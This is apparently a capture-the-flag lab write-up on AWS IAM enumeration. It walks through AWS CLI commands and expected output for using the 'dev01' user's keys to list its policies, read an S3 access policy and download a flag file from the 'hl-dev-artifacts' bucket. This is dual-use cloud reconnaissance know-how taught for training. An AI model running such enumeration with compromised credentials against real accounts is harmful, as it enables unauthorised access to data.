

# AWS IAM Enumeration
## Analyze the challenge

The challenge is to perform an AWS IAM enumeration on the `dev01` user and find a flag in an S3 bucket. The lab provides AWS credentials and access keys for the `dev01` user. The approach will involve using the AWS CLI to enumerate the user's permissions, identify accessible S3 buckets, and retrieve the flag.

## Plan of action

1. **Configure AWS CLI:** Set up the AWS CLI with the provided access keys.
2. **Verify Identity:** Use `aws sts get-caller-identity` to confirm the user context.
3. **Enumerate User Policies:** List attached and inline policies for `dev01` using `aws iam list-attached-user-policies` and `aws iam list-user-policies`.
4. **Examine S3 Permissions:** Focus on the inline policy `S3_Access` and understand the S3 permissions granted to `dev01`.
5. **Access S3 Bucket:** Use `aws s3 ls` to list the contents of the `hl-dev-artifacts` bucket.
6. **Retrieve Flag:** Use `aws s3 cp` to download the `flag.txt` file.
7. **Extract Flag:** Read the `flag.txt` file to obtain the flag.




> the image above shows what the attacker could potentially access with this compromised account

## Perform the steps to enumerate the AWS IAM permissions and retrieve the flag.

```bash
# 1. Configure AWS CLI
aws configure
# Enter the following when prompted:
# AWS Access Key ID: xxxxxxxxxxxxxxxNR5LO
# AWS Secret Access Key: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxhtrHq3
# Default region name: us-east-1  (or your preferred region)
# Default output format: json

# 2. Verify Identity
aws sts get-caller-identity

# Expected Output (Account and Arn will vary):
# {
#     "UserId": "AIDA...",
#     "Account": "xxxxxxxx7501",
#     "Arn": "arn:aws:iam::xxxxxxxx57501:user/dev01"
# }

# 3. Enumerate User Policies
aws iam list-attached-user-policies --user-name dev01
# Expected Output:
# {
#     "AttachedPolicies": [
#         {
#             "PolicyName": "AmazonGuardDutyReadOnlyAccess",
#             "PolicyArn": "arn:aws:iam::aws:policy/AmazonGuardDutyReadOnlyAccess"
#         },
#         {
#             "PolicyName": "dev01",
#             "PolicyArn": "arn:aws:iam::xxxxxxxx57501:policy/dev01"
#         }
#     ]
# }

aws iam list-user-policies --user-name dev01
# Expected Output:
# {
#     "PolicyNames": [
#         "S3_Access"
#     ]
# }

# 4. Examine S3 Permissions
aws iam get-user-policy --user-name dev01 --policy-name S3_Access
# Expected Output:
# {
#     "UserName": "dev01",
#     "PolicyName": "S3_Access",
#     "PolicyDocument": {
#         "Version": "2012-10-17",
#         "Statement": [
#             {
#                 "Effect": "Allow",
#                 "Action": [
#                     "s3:ListBucket",
#                     "s3:GetObject"
#                 ],
#                 "Resource": [
#                     "arn:aws:s3:::hl-dev-artifacts",
#                     "arn:aws:s3:::hl-dev-artifacts/*"
#                 ]
#             }
#         ]
#     }
# }

# 5. Access S3 Bucket
aws s3 ls s3://hl-dev-artifacts
# Expected Output:
# 2023-11-21 17:47:46         40 flag.txt

# 6. Retrieve Flag
aws s3 cp s3://hl-dev-artifacts/flag.txt .

# 7. Extract Flag
cat flag.txt
# Expected Output:
# xxxxxxxxxxxxxxxxxxxxxxxxxxxx7514
```